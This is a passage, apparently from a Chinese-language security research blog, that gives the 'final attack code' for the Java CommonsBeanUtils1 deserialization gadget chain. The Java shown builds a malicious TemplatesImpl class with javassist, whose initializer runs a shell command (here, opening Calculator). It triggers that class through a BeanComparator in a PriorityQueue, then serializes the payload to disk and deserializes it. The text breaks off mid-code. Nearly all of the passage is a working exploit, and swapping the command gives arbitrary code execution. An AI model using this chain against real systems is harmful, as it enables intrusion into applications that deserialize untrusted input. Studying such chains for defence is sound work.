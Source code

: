 ## ExploitWithCC
根据上面的思路, 构造出最终的攻击代码如下:

```java
package CommonsBeanUtils1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/11 4:05 下午
 */
public class CommonsBeanUtilsWithCC {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void CB() throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("CBEvilWithCC");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");

        byte[] bytes = ctClass.toBytecode();
        byte[][] targetBytes = new byte[][]{bytes};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "h3rmesk1t");
        setFieldValue(templates, "_bytecodes", targetBytes);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator();
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
        queue.add(1);
        queue.add(2);

        setFieldValue(beanComparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CBEvilWithCC.bin"));
            outputStream.writeObject(queue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CBEvilWithCC.bin"));
            inputStream.readObject();
```